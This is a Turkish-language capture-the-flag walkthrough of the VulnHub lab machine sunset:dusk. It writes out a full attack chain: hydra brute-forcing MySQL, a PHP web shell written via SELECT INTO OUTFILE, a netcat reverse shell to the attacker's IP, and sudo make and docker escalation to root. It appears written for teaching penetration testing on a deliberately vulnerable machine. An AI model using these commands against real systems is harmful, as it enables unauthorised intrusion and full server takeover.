


Sunset:dusk Makinesi
Sunset:dusk makinesi incelemesi. Makine çözümü ve gerekli toollar. Bu toolların kullanımlarının
ve saldırı yönteminin incelemesi.
Merhabalar. Bu yazımda vulnhub sitesinde yayınlanan sunset:dusk makinesini inceleyip, çözümleyeceğim. Çözümlerken takip ettiğimiz teknik ve yöntemleri anlatmaya çalışacağım. Kullandığımız komutları açıklayacağım.
Öncelikle sunset:dusk makinasını indiriyoruz. Bu bir hazır sanal makinadır yani .ova uzantısına sahiptir. Açtığımızda otomatik olarak VirtualBox için içeri aktar sekmesi ile karşılaşırız. Makinemizi içeri aktarıyoruz ve başlatmadan hemen önce saldırıyı gerçekleştireceğimiz bilgisayar ile aynı ağı kullandığından emin oluyoruz. Ben Köprü Bağdaştırıcısı ile bağlantı sağladım.
Artık başlayabiliriz. İlk yapılması gereken şey her zaman ki gibi öncelikle hedef makineyi tespit etmek. Her zaman dediğim gibi nereye saldıracağımızı bilmemiz gerekiyor.
ifconfig komutu ile(ekranın sağ tarafı);
Öncelikle kullandığımız makinanın IP adresini öğreniyoruz. Daha sonra bağlı olduğumuz ağda bulunan diğer makineleri tespit etmemiz gerekiyor. Bunun için
netdiscover komutunu kullanıyoruz.(ekranın sol tarafı);
Burada hedef makinamiza ait IP ve MAC adresini tespit ediyoruz. Artık hedefimizin kim olduğunu ve nasıl erişeceğimizi biliyoruz. Sırada hedef makineyi yakından tanımaya geldi. Port taraması yaparak portlar ve makine hakkında bilgi edinmeye çalışacağız ve bunun için elbette nmap'i kullanıyoruz.
nmap -A 192.168.1.25 komutu ile;
Hedef makinada bir nmap taramasını gerçekleştiriyoruz ve yakından tanıma imkanımız oluyor. Öncelikle komutta kullandığımız -A parametresi agresif tarama parametresidir. Genel olarak zaafiyetli makinalara karşı kullanılan parametredir yani gerçek bir makine üzerinde çalıştığınızda göreceksiniz ki kullandığı bazı scriptler nmap taramasını ele verecek ve herhangi bir geri dönüş alamayacaksınız. Fakat şuan zaafiyetli bir makinede çalışıyoruz ve fotoğraftada göründüğü gibi bir çok bilgiyi bize vermektedir. Bu bilgileri değerlendirelim o zaman. Açık olan portlara baktığımızda makinenin bir web makinesi olduğunu görüyoruz. Karşımızda bir web makinesi varsa ilk olarak nikto abimize bir danışıyoruz.
nikto -h 192.168.1.25 komutu ile;
nikto abimize soruyoruz. Beklediğimiz sonucu aldığımızı söyleyemem maalesef. Ama olsun XSS koruması olmadığını söyledi. Bir de siteye bakalım.
Buradan da pek bir çıkarım yapamadım maalesef. Birde portlarını kontrol ediyorum.
Evet gördüğünüz gibi 8080 portunda bir şey yakaladık. Web sitesi /var/tmp uzantısında yer alıyor. Bu ne demek? Yani burada var olan web sayfaları yayınlanmaktadır. Buraya bir web sayfası koymayı başarabilirsek bunu bizde yayınlayabiliriz.
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.25 mysql
Komutunu kullanarak MySQL'e BruteForce atıyoruz. Kolay bir şifresi ve parolası varmış. Metasploitable2 makinesine BruteForce saldırısı yaparken metasploit framework'ünü kullanmıştık. Burada metasploit framework'ünü kullanamaz mıydık? Tabii ki kullanabilirdik, metasploit framework'ünün içerisinde bir çok mysql modülü bulunmakta. Aslında hazır modüller ile belki doğrudan bağlantı da kurabilirdik. Lakin bizim niyetimiz burada balık yemek değil, balık tutmayı öğrenmek.
mysql --host 192.168.1.25 -u root -pkomutu ile;
MySQL bağlantısını gerçkeleştiriyoruz. Bizden bir de şifre istiyor ve şifreyi giriyoruz. SQL'in çok işe yarayan komutlarından birisini kullanmaya geldi sıra.
select <?php system($_GET['cmd']); ?>" into outfile '/var/tmp/file.php';
Komutu ile kendi sayfamısızı oluşturduk. Bu komutu biraz inceleyelim isterseniz. Öncelikle bu komut bir SQL sorgusudur ve bu sorguyu sondan incelemek biraz daha kolay olacak. En son kısımda tırnak içerisinde bir php web sayfasının uzantısını görüyoruz. Uzantıdan önce ise bir sql komutunu(into outfile) görüyoruz. Bu komut select komutu ile belirlediğimiz row(satır)'u dosyanın içerisine yazıyor. /var/tmp uzantısında file.php diye bir web sayfası yoktu. Yani oraya bir file.php sayfası oluşturup belirttiğimiz komutu oraya yazacak. Başta verdiğimiz php kodu ise bizim cmd ekranına erişimimizi sağlayacak olan komut.
Evet şimdi file.php sayfamız oluşmuş. Bu sayfa üzerinden bağlantı kurmaya çalışacağız.
nc -lvp 4444Komutu ile;(ekranın sağ tarafı)
İlk olarak kendi bilgisayarımızın 4444 portunu dinliyoruz. Ben 4444 portunu seçtim siz farklı bir port kullanabilirsiniz. Aktif bir servisin çalıştığı bir portu kullanmamaya dikkat edin ama.
192.168.1.25:8080/file.php?cmd=nc -e /bin/bash 192.168.1.26 4444
Bu komutu tarayıcımıza yazıyoruz. Yazdığımız bu komut file.php dosyasına yazdığımız SQL sorgusana girecek ve bize bir NetCat bağlantısı kuracak. Bu arada NetCat portlarda TCP/UDP dinleme ve yazma işlemi yapan bir hizmettir. Bu sayede www-data kullanıcısı olarak giriş yapmayı başardık.
python3 -c 'import pty;pty.spawn("/bin/bash")'Komutu ile;
Shell'e geçiş yapıyoruz. Bu komut bir python ve python3 komutu, yani python3 yerine python yazarsanız da çalışacaktır. pty kütüphanesinin spawn methodu sayesinde istenilen uzantıya ulaşmamızı sağlıyor. Spawn kelime anlamı olarakta meydane gelmek, ortaya çıkmak gibi bir anlamı var. Oyunlarda birden spawnlandı falan denir. Aklınıza oradan da gelebilir.
sudo -lKomutu ile;
Dosya uzantılarında ki yetkilendirmeyi kontrol edebiliyoruz ve gördüğünüz gibi /usr/bin/ uzantısına parolasız erişimimiz var.
shell=/bin/shKomutu ile;
Parolasız geçiş yapabildiğimiz bu uzantıda shell açıyoruz. Ama bu da yeterli değil.
sudo -u dusk make -s --eval=$'x:\n\t-'"$shell"Komutu ile;
Dusk kullanıcısına ve interactive shell'e geçiş yapıyoruz. Böylece docker'ı root yetkisi ile çalıştırabileceğiz.
docker run -it -v /root:/root ubuntuKomutu ile;
docker'ı root yetkisi ile çalıştırıyoruz ve böylece root yetkisini de elimize almış oluyoruz.